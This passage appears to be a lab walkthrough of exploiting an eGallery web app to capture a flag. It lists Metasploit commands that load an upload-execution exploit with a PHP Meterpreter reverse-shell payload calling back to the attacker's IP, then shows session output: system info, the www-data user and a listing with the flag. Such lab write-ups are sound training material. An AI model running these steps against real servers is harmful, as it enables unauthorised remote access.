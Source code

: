 ```
 - Added zip download feature
 - Fixed bug caused by visiting index.php url
1.2 : March 8, 2012
 - Altered the style
 - Added option to display image EXIF details
```

**Step 3**.

`ip addr | grep "inet"`:
```
    inet 127.0.0.1/8 scope host lo
    inet 10.1.0.11/16 brd 10.1.255.255 scope global eth0
    inet 192.45.82.2/24 brd 192.45.82.255 scope global eth1 ←
```

`msfconsole -q`, `search egallery`, `use exploit/unix/webapp/egallery_upload_exec`, `set PAYLOAD php/meterpreter/reverse_tcp`, `show options`, `set RHOSTS demo.ine.local`, `set LHOST 192.45.82.2`, `set TARGETURI /`, `exploit -j`.
The `TARGETURI` was set to `/sample` by default. But the application is running on the root path of the webserver. So, we need to change that value to `/`.

`sessions -i 1`, `sysinfo`:
```
Computer    : demo.ine.local
OS          : Linux demo.ine.local 5.4.0-152-generic #169-Ubuntu SMP Tue Jun 6 22:23:09 UTC 2023 x86_64
Meterpreter : php/linux
```

`getuid`:
```
Server username: www-data ←
```

`ls`:
```
Listing: /var/www/html
======================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100777/rwxrwxrwx  2155  fil   2012-03-09 03:07:14 +0530  README.txt
040777/rwxrwxrwx  4096  dir   2022-01-24 13:35:56 +0530  THIS_IS_FLAG5234234324 ←
040777/rwxrwxrwx  4096  dir   2012-03-09 00:42:52 +0530  egallery
100777/rwxrwxrwx  4848  fil   2012-03-09 00:13:42 +0530  index.php
100644/rw-r--r--  1122  fil   2024-02-29 14:14:43 +0530  rVRTdiwsS.php
```

`ls THIS_IS_FLAG5234234324`:
```
Listing: THIS_IS_FLAG5234234324
===============================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100777/rwxrwxrwx  33    fil   2022-01-24 13:35:56 +0530  FLAG1 ←
```
